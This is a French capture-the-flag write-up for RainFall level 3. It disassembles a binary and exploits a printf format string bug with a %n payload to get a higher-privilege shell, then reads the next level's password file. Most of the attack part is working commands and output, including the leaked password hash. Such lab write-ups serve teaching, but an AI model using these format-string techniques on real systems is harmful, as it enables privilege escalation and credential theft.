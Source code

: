 # **Level 3**

Pour le `level3` nous avons un executable, en le desassemblant dans `gdb`, on remarque qu'il utilise `printf` pour afficher l'entree de l'utilisateur sur le terminal

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
=> 0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```
On remarque en lisant le code qu'il compare le contenue de l'addresse `0x804988c` à `0x40` et que si les deux valeurs sont egales, il continue sinon le programme se termine.

```
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
```


On test le programme

```
level3@RainFall:~$ ./level3
d
d
```

Tout ce passe comme prevus, on test encore

```
level3@RainFall:~$ ./level3
%x
200
```

En mettant un formatteur de string en entree, celui la est traduit pour renvoyer une valeur, cela signifie que le programme est vulnerable a ce qu'on appelle les `format string attack`

> [Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)

Pour faire simple, si tu mets l'entree de l'utilisateur en premier argument a printf (ou toutes autres fonction similaire, fprintf/vprintf....)
l'utilisateur peux acceder a la memoire qui suit en mettant des formatteur de string tel que `%x` ou `%p` mais surtout il peux utiliser `%n` qui permet d'ecrire a l'addresse de l'argument passe un parametre le taille de la string deja ecrite.

Nous pouvons alors construire notre payload, pour ce faire nous avons besoin

Tout d'abord nous allons mettre en debut l'addresse que l'on veux modifier, cela permet de mettre dans la stack l'addresse pour pouvoir la dereferencer avec `%n` et ecrire dedans

```
addr = "\x8c\x98\x04\x08"
payload = addr + filler + pos
```

Maintenant il faut trouver a quelle position elle se trouve au moment du printf

```
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08"+"%p %p %p %p %p %p")' > /var/crash/file
level3@RainFall:~$ cat /var/crash/file - | ./level3
�0x200 0xb7fd1ac0 0xb7ff37d0 0x804988c 0x25207025 0x70252070
```

On trouve quelle est a la 4eme position donc nous pouvons continuer notre payload

```
addr = "\x8c\x98\x04\x08"
pos = "%4$n"
payload = addr + filler + pos
```

Et enfin comme on veux que notre valuer soit egale a `0x40` soit `64`, on complete avec `64 - 4` caractere

```
addr = "\x8c\x98\x04\x08"
pos = "%4$n"
filler = "%60X"
payload = addr + filler + pos
```

On execute le tout

```
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08"+"%60X%4$n")' > /var/crash/file
level3@RainFall:~$ cat /var/crash/file - | ./level3
�                                                         200
Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

> ### NEXT : [Level 4](/level4/resources/README.md)
